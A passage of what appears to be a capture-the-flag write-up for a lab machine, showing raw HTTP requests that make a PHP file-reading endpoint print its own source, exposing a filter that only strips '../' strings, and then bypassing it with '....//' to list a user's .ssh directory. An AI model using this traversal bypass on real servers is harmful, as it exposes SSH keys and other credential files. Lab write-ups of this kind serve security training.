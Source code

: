 Now we can abuse the fileRead.php to read itself as follows:
```
POST /fileRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Color: cyan
Connection: close

file=./fileRead.php
```

HTTP Response:
```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 14 Aug 2018 16:07:25 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 577

{"file":"<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"}
```

And here we see that the core filtering preventing us to do path traversal is simply replacing the strings `../` and `..\` by an empty string. This can be easily bypassed using `....//`that will be processed into `../` by the filter. Using this we can read the content of `/home/nobody/.ssh/` as follows:
```
POST /dirRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Color: cyan
Connection: close

path=....//....//....//home/nobody/.ssh/
```
